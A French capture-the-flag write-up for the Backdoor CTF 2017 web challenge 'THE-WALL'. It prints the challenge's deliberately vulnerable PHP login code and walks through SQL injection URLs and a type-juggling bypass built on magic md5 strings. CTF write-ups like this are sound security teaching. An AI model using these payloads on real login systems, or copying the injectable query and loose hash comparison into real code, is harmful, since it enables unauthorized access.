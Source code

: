 Backdoor CTF 2017: THE-WALL
-------

**Catégorie**: Web **Points**: 100 **Description**:

> Night king needs the secret flag to destroy the wall. Help night king get flag from Lord Commander so that army of dead can kill the living
http://163.172.176.29/WALL


Write up
-------

Dans un premier temps en cliquant sur le lien on arrive sur la page http://163.172.176.29/WALL/login.html

On va commencer par regarder le code source de la page voir s'il n'y a pas d'indices:

```html
    <html>
    <head>
    <title>The Wall</title>
    </head>
    <body>
    <form action="index.php" method="POST">
    Username:<input type="text" name="life" /><br>
    Password:<input type="password" name="soul" /><br>
    <input type="submit">
    </form>
    <br>
    Here is the source of <a href="source.php">index.php</a>
    </body>
    </html>
```

On sait maintenant qu'il y a "life" et "soul" envoyés en POST sur la page "index.php".

Maintenant on va regarder la source de la page "index.php" en cliquant sur le lien hypertexte:

```php
    <html>
    <head>
    <title>The Wall</title>
    </head>
    <body>
    <?php
    include 'flag.php';
    if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
        $username = $_REQUEST['life'];
        $password = $_REQUEST['soul'];
        if(!(is_string($username)&&is_string($password))){
            header( "refresh:1;url=login.html");
            die("You are not allowed south of wall");
        }
        $password = md5($password);
        include 'connection.php';
        /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/
        $message = "";
        if(preg_match('/(union|\|)/i', $username)){
            $message="Dead work alone not in UNIONs"."</br>";
            echo $message;
            die();
        }
        $query = "SELECT * FROM users WHERE username='$username'";
        $result = $pdo->query($query);
        $users = $result->fetchArray(SQLITE3_ASSOC);
        if($users) {
            if($password == $users['password']){
                if($users['role']=="admin"){
                    echo "Here is your flag: $flag";
                }elseif($users['role']=="normal"){
                    $message = "Welcome, ".$users['users']."</br>";
                    $message.= "Unfortunately, only Lord Commander can access flag";
                }else{
                    $message = "What did you do?";
                }
            }
            else{
                $message = "Wrong identity for : ".$users['username'];
            }
        }
        else{
            $message = "No such person exists"."<br>";
        }
        echo $message;
    }else{
        header( "refresh:1;url=login.html");
        die("Only living can cross The Wall");
    }
    ?>
    </body>
    </html>
```

De cette façon on apprend plusieurs choses:

* Les deux champs ne peuvent pas être vides, et on peut envoyer notre "username" et notre "password" en GET car on a "$_REQUEST"
    ```php
        if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
            $username = $_REQUEST['life'];
            $password = $_REQUEST['soul'];
    ```
* Le hash du mot de passe est md5 (sa taille est donc de 32 caractères)
    ```php
        $password = md5($password);
    ```
* On sait que la table est "users" et que les colonnes sont: id, username, password, role
    ```php
        /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/
    ```
* On ne pourra pas faire d'union
    ```php
        if(preg_match('/(union|\|)/i', $username)){
            $message="Dead work alone not in UNIONs"."</br>";
            echo $message;
            die();
        }
    ```
* Il y a une injection sql sur username
    ```php
        $query = "SELECT * FROM users WHERE username='$username'";
        $result = $pdo->query($query);
    ```

On va pouvoir commencer notre blind SQLI en récupérant dans un premier temps le pseudo de l'administrateur:

```
   http://163.172.176.29/WALL/index.php?soul=tt&life=' OR role='admin' -- '
```

Bingo ! On obtient le nom d'utilisateur qui est "LordCommander" (comme c'est bizarre).

Maintenant on va commencer par récupérer le mot de passe à la main (comme on est noob) avec des valeurs numérique (on commence par zéro):

```
    http://163.172.176.29/WALL/index.php?soul=tt&life=LordCommander' AND password like '0%' -- '
```

On a un résultat positif et si le mot de passe commence par 0e on aurait un bug sur du type juggling et c'est logique avec:

```php
    $password = md5($password);
```

On test donc avec "0e":

```
    http://163.172.176.29/WALL/index.php?soul=tt&life=LordCommander' AND password like '0e%' -- '
```

C'est encore gagné ! On a beaucoup de chance aujourd'hui !
On va maintenant pouvoir tester avec un mot de passe qui en md5 commence par "0e" et qui retourne vrai pour:

```php
    if($password == $users['password'])
```

Voici des mots qui fonctionnent:

```
    240610708
    QNKCDZO
    aabg7XSs
```

On envoi donc notre combinaison nom d'utilisateur et mot de passe:

```php
    http://163.172.176.29/WALL/index.php?soul=QNKCDZO&life=LordCommander
```
Bim ! On a le flag qui s'affiche et on gagne 100 points.

-> ![Snow](images/snow.jpeg) <-
